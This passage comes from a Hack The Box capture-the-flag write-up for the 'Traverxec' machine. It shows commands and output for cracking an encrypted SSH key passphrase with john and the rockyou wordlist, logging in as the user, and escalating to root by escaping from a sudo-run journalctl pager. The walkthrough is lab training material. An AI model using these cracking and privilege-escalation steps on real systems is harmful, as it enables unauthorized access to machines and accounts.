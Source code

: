 ```aaa
baud@kali:~/HTB/traverxec/home/david/.ssh$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
```

The key is encrypted with a passphrase which is not the same one found earlier, so it is cracked with john:

```aaa
baud@kali:~/HTB/traverxec/home/david/.ssh$ /usr/share/john/ssh2john.py id_rsa > crackThis
baud@kali:~/HTB/traverxec/home/david/.ssh$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt crackThis
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:09 DONE (2020-04-04 11:41) 0.1083g/s 1553Kp/s 1553Kc/s 1553KC/s *7¡Vamos!
Session completed
```

Now we can login as David and grab the first flag thanks to the newly found "hunter" passphrase:

```aaa
baud@kali:~/HTB/traverxec/home/david/.ssh$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Apr  4 05:40:43 2020 from 10.10.15.20
david@traverxec:~$
```

---

## Privilege escalation #2: journalctl root shell escape

A script in the bin folder inside David's home calls /usr/bin/journalctl, a program that is found in the list of [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/):

```aaa
david@traverxec:~$ cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The pipe to *cat* can be removed to start journalctl interactively by calling *less* (journalctl's default behavior), and from there shell commands can be executed by tpying "!". Because the program runs as root thanks to sudo, a root shell is started:

![img](/images/writeup-traverxec/3.png)
